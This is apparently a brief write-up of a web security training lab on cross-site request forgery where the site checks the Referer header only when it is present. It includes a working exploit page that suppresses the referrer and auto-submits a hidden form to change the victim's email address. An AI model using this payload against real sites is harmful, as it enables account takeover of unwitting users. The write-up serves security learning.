

# **CSRF where Referer validation depends on header being present**

This lab is about the referer header being the same as the host, if we try the same payload as , we get:


Which mentions the problem, if we check the referrer in Burp:



We can see that for the normal request the referrer is the same host. But modifying the payload:

```
<head>
  <meta name="referrer" content="never"/>
</head>
<body>
<form method="POST" action="https://0a95005c037a419283d79bb0008c0019.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="evil@hacker.net">
</form>
<script>
        document.forms[0].submit();
</script>
</body>
```

In the head block we can specify no referrer, and now it will work if you serve the exploit:


